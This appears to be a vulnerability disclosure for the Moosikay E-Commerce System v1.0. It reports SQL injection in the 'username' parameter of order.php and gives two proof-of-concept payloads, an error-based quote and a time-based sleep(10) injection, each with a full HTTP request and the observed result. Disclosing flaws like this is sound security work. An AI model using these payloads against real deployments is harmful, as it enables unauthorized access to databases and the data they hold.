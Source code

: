 # Moosikay - E-Commerce System v1.0 has SQL injection

BUG_Author:jidle

Vulnerability File: /Moosikay/order.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=a'&password=b&login=

```
POST /Moosikay/order.php HTTP/1.1
Host: localhost
Content-Length: 29
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Moosikay/order.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close

username=a'&password=b&login=
```

An error occurred in the sql statement

![image](https://github.com/jidle123/picture/blob/main/error.png)

Payload2: username=a' and (select 1 FROM (select(sleep(10)))a)-- b&password=b&login=

```
POST /Moosikay/order.php HTTP/1.1
Host: localhost
Content-Length: 74
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Moosikay/order.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=8k72voo5t0276k7qbfjgmn7sjm
Connection: close

username=a' and (select 1 FROM (select(sleep(10)))a)-- b&password=b&login=
```

The response time of the server is 10 seconds

![image](https://github.com/jidle123/picture/blob/main/ten.png)
